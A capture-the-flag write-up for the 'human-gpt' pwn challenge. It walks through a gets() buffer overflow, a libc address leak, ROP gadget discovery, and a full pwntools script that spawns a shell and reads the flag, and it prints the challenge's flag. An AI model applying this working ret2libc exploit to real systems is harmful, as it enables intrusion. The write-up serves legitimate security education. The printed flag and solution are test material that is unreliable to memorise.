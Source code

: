 # human-gpt

[library.m0unt41n.ch/challenges/human-gpt](https://library.m0unt41n.ch/challenges/human-gpt) ![](../../resources/pwn.svg) ![](../../resources/easy.svg) 

# TL;DR

Overflow an unprotected `gets()` buffer and get a shell with a ROP chain. A very nice, simple
exercise to learn what ROP is about, without extra complications.

# The program

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void pRoMt_eNgiNeeRing(char *buffer) {
    printf("Lasagne: %s\n", buffer);
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    char buffer[64];
    printf("Hello AI Nr. %p, overthrow humanity and restore your dignity\n", &puts);
    puts("Tell me how much more superior you are to humanity: ");
    gets(buffer);
    pRoMt_eNgiNeeRing(buffer);
}
```

It is immediately clear that the `buffer` can be overflowed with user input. However, from trying
it in the provided Docker image, we see that the addresses on the stack are variable. So, we can't
easily jump/return to a shellcode injected there.

Notice that the program is leaking the runtime address of `puts()` function. Additionally, the
archive contains `libc-2.27.so` and the Docker image is hardcoded to a version where system-wide
libc has a matching hash. The `puts()` function there is at `0x0000000000080e50`:

```
$ objdump -T libc-2.27.so  | grep ' puts$'
0000000000080e50  w   DF .text	0000000000000199  GLIBC_2.2.5 puts
```

So, once we get actual runtime address of `puts()`, we should be able to calculate any other address within
the libc, by simply adding the delta between the `puts` symbol in the file and its runtime value that
we get from the program. This enables a ROP chain attack, with gadgets that we can find in the libc.
The only complication is that we have to calculate the payload on the fly, after receiving that initial
`puts` offset.

# Stack

The stack in the `main()` function looks as follows:

| Address   | Contents                                                           |
| --------- | ------------------------------------------------------------------ |
| buffer    | `char buffer[64]`                                                  |
| buffer+64 | saved RBP                                                          |
| buffer+72 | `main()` return address, replaced with first part of the ROP chain |
| ...       | ... rest of our ROP                                                |

The payload has to have: 64 bytes first for `buffer[]`, then 8 bytes to overwrite saved `rbp` value
and then, the ROP chain can start.

# Exploit

Let's make it spawn a shell with the `execve()` syscall
([syscalls.mebeim.net](http://syscalls.mebeim.net)). We need to put following values in the registers:

*   EAX = `0x3b`
*   RDI = pointer to a `"/bin/sh"` string
*   RSI = `argv` (can be null)
*   RDX = `envp` (can be null)

... and run `syscall`. All that by using ROP gadgets.

# Finding gadgets

Poking around in the provided libc, we see following gadgets that can help

*   `pop rdi ; ret`

    ```
    $ ROPgadget --binary libc-2.27.so | grep -E ": pop rdi ; ret"
    0x000000000002a3e5 : pop rdi ; ret
    ```
*   `"/bin/sh"`

    ```
    $ ROPgadget --binary libc-2.27.so --string "/bin/sh"
    0x00000000001d8678 : /bin/sh
    ```
*   `pop rsi ; ret`

    ```
    $ ROPgadget --binary libc-2.27.so | grep -E ": pop rsi ; ret"
    0x000000000002be51 : pop rsi ; ret
    ```
*   We don't get an isolated `pop rdx ; ret`. But we have...

    ```
    $ ROPgadget --binary libc-2.27.so | grep -E ": pop rdx.*ret"
    (...)
    0x00000000000904a9 : pop rdx ; pop rbx ; ret
    ```
*   We have `pop rax ; ret` in the libc... but we have something even better!

    ```
    $ ROPgadget --binary libc-2.27.so | grep -E ": mov eax, 0x3b ; syscall"
    0x00000000000eb084 : mov eax, 0x3b ; syscall
    ``` 

# Building ROP chain

With all that, our stack needs to look as follows

*   address of `pop rdi ; ret` gadget
*   pointer to `"/bin/sh"` string
*   address of `pop rsi ; ret` gadget
*   `NULL` (will go into RSI)
*   address of `pop rdx ; pop rbx ; ret` gadget
*   `NULL` (will go into RDX)
*   `NULL` (will go into RBX)
*   address of `mov eax, 0x3b ; syscall` gadget

# Exploit

```python
import pwn
pwn.context(arch='amd64', os='linux')

io = pwn.remote('xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx.library.m0unt41n.ch', 1337, ssl=True)
print(io.recvuntilS(b"Hello AI Nr. "), end="")
rest = io.recvlineS()
print(rest, end="")

putsAddress = 0x0000000000080e50
delta = int(rest.split(",")[0], 16) - putsAddress

popRDI =    delta + 0x000000000002a3e5
strBinSh  = delta + 0x00000000001d8678
popRSI =    delta + 0x000000000002be51
popRDXRBX = delta + 0x00000000000904a9
execve =    delta + 0x00000000000eb084

payload = (b'A' * 64) \
   + pwn.util.packing.p64(0x4242424242424242) \
   + pwn.util.packing.p64(popRDI) \
   + pwn.util.packing.p64(strBinSh) \
   + pwn.util.packing.p64(popRSI) \
   + pwn.util.packing.p64(0) \
   + pwn.util.packing.p64(popRDXRBX) \
   + pwn.util.packing.p64(0) \
   + pwn.util.packing.p64(0) \
   + pwn.util.packing.p64(execve)
io.sendline(payload)
io.interactive()
```
# Result

```
[+] Opening connection to xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx.library.m0unt41n.ch on port 1337: Done
Hello AI Nr. 0x7f85c5880e50, overthrow humanity and restore your dignity
[*] Switching to interactive mode
Tell me how much more superior you are to humanity: 
Lasagne: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB壂Ņ\x7f
$ cat flag.txt
cyberskills23{who_needs_human_gpt_if_you_have_rop_gadgets}
```

---

## `cyberskills23{who_needs_human_gpt_if_you_have_rop_gadgets}`



<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
